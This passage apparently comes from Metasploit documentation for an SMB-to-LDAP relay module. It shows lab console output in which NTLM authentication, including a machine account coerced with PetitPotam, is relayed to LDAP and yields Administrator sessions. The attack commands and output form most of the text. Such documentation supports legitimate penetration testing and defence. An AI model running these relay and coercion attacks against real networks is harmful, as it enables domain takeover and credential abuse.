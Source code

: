 ```
 1   SMB Relay Server                                                  2
```

### Net use example
A simple test would be using the Windows `net use` command:

```
net use \\192.168.232.3\foo /u:Administrator 123456
```

msfconsole output:

```
[*] New request from 192.168.232.111
[*] Received request for \Administrator
[*] Relaying to next target ldap://192.168.232.110:389
[+] Identity: \Administrator - Successfully authenticated against relay target ldap://192.168.232.110:389
[+] Relay succeeded
[*] LDAP session 1 opened (192.168.232.3:45007 -> 192.168.232.110:389) at 2025-01-23 20:39:45 +0100
[*] Received request for \Administrator
[*] Identity: \Administrator - All targets relayed to
[*] New request from 192.168.232.111
[*] Received request for NEWLAB\Administrator
[*] Relaying to next target ldap://192.168.232.110:389
[+] Identity: NEWLAB\Administrator - Successfully authenticated against relay target ldap://192.168.232.110:389
[+] Relay succeeded
[*] LDAP session 2 opened (192.168.232.3:43845 -> 192.168.232.110:389) at 2025-01-23 20:39:46 +0100
[*] Received request for NEWLAB\Administrator
[*] Identity: NEWLAB\Administrator - All targets relayed to

msf auxiliary(server/relay/smb_to_ldap) > sessions

Active sessions
===============

  Id  Name  Type  Information                               Connection
  --  ----  ----  -----------                               ----------
  1         ldap  LDAP Administrator @ 192.168.232.110:389  192.168.232.3:45007 -> 192.168.232.110:389 (192.168.232.110)
  2         ldap  LDAP Administrator @ 192.168.232.110:389  192.168.232.3:43845 -> 192.168.232.110:389 (192.168.232.110)
```

### PetitPotam example

Coerce authentication using a non-privileged Domain User account with PetitPotam:

```
msf auxiliary(scanner/dcerpc/petitpotam) > run verbose=true rhosts=192.168.232.111 listener=192.168.232.3 SMBUser=msfuser SMBPass=123456 SMBDomain=newlab.local
[*] 192.168.232.111:445   - Binding to c681d488-d850-11d0-8c52-00c04fd90f7e:1.0@ncacn_np:192.168.232.111[\lsarpc] ...
[*] 192.168.232.111:445   - Bound to c681d488-d850-11d0-8c52-00c04fd90f7e:1.0@ncacn_np:192.168.232.111[\lsarpc] ...
[*] 192.168.232.111:445   - Attempting to coerce authentication via EfsRpcOpenFileRaw
[*] 192.168.232.111:445   - Server responded with ERROR_ACCESS_DENIED (Access is denied.)
[*] 192.168.232.111:445   - Attempting to coerce authentication via EfsRpcEncryptFileSrv

[*] New request from 192.168.232.111
[*] Received request for NEWLAB\VICTIM$
[*] Relaying to next target ldap://192.168.232.110:389
[+] Identity: NEWLAB\VICTIM$ - Successfully authenticated against relay target ldap://192.168.232.110:389
[*] Skipping previously captured hash for NEWLAB\VICTIM$
```